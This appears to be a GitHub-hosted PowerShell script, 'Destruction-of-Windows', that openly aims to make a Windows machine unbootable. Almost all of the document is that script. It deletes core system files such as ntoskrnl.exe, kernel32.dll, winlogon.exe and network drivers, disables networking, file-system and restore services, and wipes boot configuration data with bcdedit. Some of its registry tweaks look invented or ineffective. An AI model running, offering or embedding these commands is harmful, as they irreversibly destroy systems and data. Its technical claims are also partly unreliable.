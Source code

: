 # Destruction-of-Windows
Windows Complete Destruction
# Extreme Destruction of Windows Script - USE AT YOUR OWN RISK
# This script will make the system unbootable or render it unusable.

# Ensure script is run as Administrator
if (!([Security.Principal.WindowsPrincipal][Security.Principal.WindowsIdentity]::GetCurrent()).IsInRole([Security.Principal.WindowsBuiltInRole]::Administrator)) {
    Write-Host "You need to run this script as an administrator!" -ForegroundColor Red
    exit
}

# PART 1: Remove Windows UI and Shell Functionality

Write-Host "Disabling Windows Shell (Explorer)..." -ForegroundColor Red
Set-ItemProperty -Path "HKLM:\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon" -Name "Shell" -Value "cmd.exe" -Force
# Alternatively, blank shell for no shell at all
Set-ItemProperty -Path "HKLM:\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon" -Name "Shell" -Value "" -Force

Write-Host "Deleting Explorer.exe and dwm.exe..." -ForegroundColor Red
Remove-Item -Path "C:\Windows\explorer.exe" -Force
Remove-Item -Path "C:\Windows\System32\dwm.exe" -Force

Write-Host "Disabling Taskbar and System Tray..." -ForegroundColor Red
New-ItemProperty -Path "HKCU:\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer" -Name "NoTrayItemsDisplay" -Value 1 -Force

# PART 2: Remove Networking Functionality Completely

Write-Host "Disabling TCP/IP Stack and Networking..." -ForegroundColor Red
New-ItemProperty -Path "HKLM:\SYSTEM\CurrentControlSet\Services\Tcpip\Parameters" -Name "EnableTCP" -Value 0 -Force

Write-Host "Deleting Core Network Drivers..." -ForegroundColor Red
Remove-Item -Path "C:\Windows\System32\drivers\tcpip.sys" -Force
Remove-Item -Path "C:\Windows\System32\drivers\ndis.sys" -Force

Write-Host "Disabling DHCP, DNS, and NetBIOS services..." -ForegroundColor Red
Set-Service -Name Dhcp -StartupType Disabled
Set-Service -Name Dnscache -StartupType Disabled
Set-Service -Name NetBT -StartupType Disabled
Set-Service -Name LanmanWorkstation -StartupType Disabled
Set-Service -Name LanmanServer -StartupType Disabled
Stop-Service -Name Dhcp, Dnscache, NetBT, LanmanWorkstation, LanmanServer -Force

# PART 3: Attack the Kernel - Disable Kernel-Level Protections

Write-Host "Disabling Kernel Patch Protection and Secure Boot..." -ForegroundColor Red
New-ItemProperty -Path "HKLM:\SYSTEM\CurrentControlSet\Control\Session Manager" -Name "DisableKernelPatchProtection" -Value 1 -Force
New-ItemProperty -Path "HKLM:\SYSTEM\CurrentControlSet\Control\SecureBoot\State" -Name "UEFISecureBootEnabled" -Value 0 -Force

Write-Host "Disabling CPU Scheduler and Thread Management..." -ForegroundColor Red
Set-ItemProperty -Path "HKLM:\SYSTEM\CurrentControlSet\Services\Scheduler" -Name "Start" -Value 4 -Force

Write-Host "Deleting Critical Kernel Files (ntoskrnl.exe)..." -ForegroundColor Red
Remove-Item -Path "C:\Windows\System32\ntoskrnl.exe" -Force

# PART 4: Destroy Core Services - Task Scheduler, WMI, and System Restore

Write-Host "Disabling Task Scheduler completely..." -ForegroundColor Red
Set-Service -Name Schedule -StartupType Disabled
Stop-Service -Name Schedule -Force

Write-Host "Disabling WMI (Windows Management Instrumentation)..." -ForegroundColor Red
Set-Service -Name Winmgmt -StartupType Disabled
Stop-Service -Name Winmgmt -Force

Write-Host "Disabling System Restore and Volume Shadow Copy..." -ForegroundColor Red
Disable-ComputerRestore -Drive "C:\" 
Set-Service -Name VSS -StartupType Disabled
Stop-Service -Name VSS -Force

# PART 5: Remove File System Components and Disk I/O

Write-Host "Disabling NTFS File System..." -ForegroundColor Red
Set-ItemProperty -Path "HKLM:\SYSTEM\CurrentControlSet\Services\Ntfs" -Name "Start" -Value 4 -Force

Write-Host "Disabling Volume Snapshots (VSS)..." -ForegroundColor Red
Remove-Item -Path "C:\Windows\System32\drivers\volsnap.sys" -Force

Write-Host "Deleting Paging File (Virtual Memory) and disabling Disk I/O..." -ForegroundColor Red
Set-ItemProperty -Path "HKLM:\SYSTEM\CurrentControlSet\Control\Session Manager\Memory Management" -Name "PagingFiles" -Value "" -Force

# PART 6: Break Windows Boot Process and Integrity Checks

Write-Host "Deleting Boot Configuration Data (BCD)..." -ForegroundColor Red
bcdedit /delete {bootmgr} /f

Write-Host "Disabling Secure Boot Integrity Checks..." -ForegroundColor Red
New-ItemProperty -Path "HKLM:\SYSTEM\CurrentControlSet\Control\Session Manager" -Name "DisableIntegrityChecks" -Value 1 -Force

# PART 7: Final Destruction - Remove Critical Libraries and Services

Write-Host "Deleting Critical System Libraries (kernel32.dll, winlogon.exe)..." -ForegroundColor Red
Remove-Item -Path "C:\Windows\System32\kernel32.dll" -Force
Remove-Item -Path "C:\Windows\System32\winlogon.exe" -Force

# PART 8: Power Management and HAL Destruction

Write-Host "Disabling Power Management and HAL (Hardware Abstraction Layer)..." -ForegroundColor Red
Set-Service -Name ACPI -StartupType Disabled
Set-ItemProperty -Path "HKLM\SYSTEM\CurrentControlSet\Services\hal" -Name "Start" -Value 4 -Force

Write-Host "All critical destruction steps are complete. Your system is now irreversibly broken. Rebooting will likely result in complete failure to boot." -ForegroundColor Green
